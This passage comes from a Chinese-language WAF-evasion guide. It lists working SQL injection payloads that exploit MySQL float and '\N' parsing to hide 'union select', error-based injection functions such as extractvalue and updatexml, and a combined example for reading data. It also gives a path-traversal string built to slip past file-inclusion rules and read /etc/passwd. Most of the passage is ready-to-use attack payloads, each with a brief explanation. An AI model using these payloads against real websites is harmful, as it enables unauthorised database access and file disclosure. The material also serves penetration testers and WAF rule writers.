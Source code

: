 > 利用MySQL解析浮點數的特點，正則表達式無法匹配出單詞union，但是MySQL詞法解析成功解析出浮點數、sql關鍵字union

*    select * from users where id=8E0union select 1,2,3,4,5,6,7,8,9,0
*    select * from users where id=8.0union select 1,2,3,4,5,6,7,8,9,0
*    select * from users where id=\Nunion select 1,2,3,4,5,6,7,8,9,0

---

#### 4.1.5 利用error-based進行SQL注入

> Error-based的SQL注入函數非常容易被忽略，導致WAF規則過濾不完整。隨著對MySQL研究越來越深，被發現可用於error-based SQL注入的函數越來越多，同時也給繞過WAF造就了更多機會。常見的函數：

*    extractvalue(1, concat(0x5c,md5(3)));
*    updatexml(1, concat(0x5d,md5(3)),1);
*    GeometryCollection((select from(select from(select@@version)f)x))
*    polygon((select*from(select name_const(version(),1))x))
*    linestring()
*    multipoint()
*    multilinestring()
*    multipolygon()

利用Error-based的SQL注入函數進行繞過時，可以結合函數分隔符，或其他方法靈活運用。

---

#### 4.1.6 Mysql特殊語法

> 最有效的發現手段，還是去讀讀MySQL詞法分析源代碼。和協議繞過類似，挖掘SQL標準與MySQL的詞法分析差異是發現WAF SQL注入繞過的有效手段。以下是MySQL語法的一個特寫(ps:不是我發現的)：

`select{x table_name}from{x information_schema.tables};`

---

#### 4.1.7 綜合利用實例以上

> 綜合利用實例以上都是SQL注入繞過中的技術點，在實際滲透測試中，需要靈活綜合利用才能達到完整繞過，讀取數據數據。以下給出完整繞過WAF SQ注入檢測的實例。如圖，本例中綜合多個繞過技術點，最終實現完整繞過實現讀取數據。

*    利用浮點數詞法解析，繞過union select 的檢測。
*    同樣，函數分隔符思想集和浮點數詞法解析，繞過關鍵字from的檢測。
*    最後空白分分割繞過INFORMATION_SCHEMA.TABLES的檢查

![](https://i.imgur.com/Xqzt2Rk.png)

---

### 4.2 文件包含

> 文件包含分為相對路徑、絕對路徑文件包含。在相對路徑文件包含中，最終根據Linux虛擬文件系統(vfs)的規則查找文件，通過分析vfs的文件路徑解析規則，提取其中規則特點，用這些特點去繞過WAF。在絕對文件路徑包含中，主要是根據攻擊場景，WAF未過濾一些協議、未過濾某些特殊路徑。

#### 4.2.1 相對路徑的繞過

> 寫WAF文件包含規則時，如果檢測單一的”../”，誤報會非常多，所以WAF文件包含規則通常會檢測連續的“../"。根據vfs解析路徑的語法，解析到“//”文件路徑不變，解析到“/./”文件路徑依然。通過避免連續的"../"，從而繞過WAF文件包含規則。
> Eg: ././..///./.././/../etc//passwd，它等價於../../../etc/passwd。如圖，一個實際的繞過WAF文件包含的CASE
